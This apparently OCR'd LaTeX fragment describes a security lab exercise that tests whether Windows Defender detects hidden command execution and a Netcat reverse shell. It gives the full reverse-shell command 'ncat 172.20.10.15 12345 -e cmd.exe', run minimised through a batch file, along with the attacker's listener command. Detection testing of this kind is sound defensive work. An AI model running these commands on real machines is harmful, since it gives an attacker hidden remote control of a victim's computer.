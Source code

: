 \documentclass[11pt]{article}
\begin{document}
				\subsubsection{Step 1 - Non Visual Command Execution and Process Hiding}
					The command \texttt{'start /min cmd /c'} in \texttt{'cmd\_commands.bat'} were used to execute commands using \texttt{'cmd.exe'} in a way that avoids visible windows and to test detection of these hidden operations. \texttt{'cmd.exe'} via the command
				\subsubsection{Step 2 - Backdoor Creation and Remote Access}
					The objective is to establish a reverse shell from the victim machine to the attacker machine using Netcat and asses if Security Tools like Windows Defender detects the connection attempt or the tool used.
					The Tools and Scripts Used were \texttt{'ncat.exe'}, which is a part of Nmap, installed via WinGet as per \texttt{'cmd\_commands.bat'}. The file \texttt{cmd\_commands.bat} were used to initiate the Ncat reverse shell connection. To establish the connection to the attacker machine, a Netcat listener were used through the command \texttt{'nc-lvnp 12345'}\\\par
					
					 \textbf{Execution Procedure}
						\begin{enumerate}
							\item On the attacker machine, a Netcat listener was started: \texttt{'nc-lvnp 12345'}
							\item On the victim machine, \texttt{'cmd\_commands.bat'} was executed
							\item The batch script attempted to install Nmap (if not present) silently using WinGet and then initiated the reverse shell \texttt{'start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"'}, where \texttt{'172.20.10.15'} is the attacker's IP address and \texttt{'12345'} is a free port
							\item If successful, a command prompt session from the victim machine appeared on the attacker's Netcat listener
							\item Finally, commands where executed remotely from the attacker's computer controlling the victim's computer trough a Command Prompt Terminal
						\end{enumerate}
\end{document}
